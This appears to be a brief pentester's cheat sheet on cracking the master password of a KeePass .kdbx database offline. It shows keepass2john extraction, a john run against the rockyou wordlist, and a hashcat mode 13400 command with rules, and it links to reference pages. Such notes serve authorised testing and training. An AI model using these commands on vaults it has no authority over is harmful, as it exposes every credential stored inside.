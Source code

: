 # Hacking Keepass

References:
* https://www.thedutchhacker.com/how-to-crack-a-keepass-database-file/

## Cracking DB file

1. find `.kdbx` files
2. convert to john `keepass2john Database.kdbx > Keepasshash.txt`
3. crack with john `john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt`

or use hashcat

1. remove DB name from already made `Keepasshash.txt`
2. `hashcat -m 13400 -a 0 --force Keepasshashforthecat.txt wordlist.txt -r best64.rule`

using masks and rules with hashcat helps https://hashcat.net/wiki/doku.php?id=mask_attack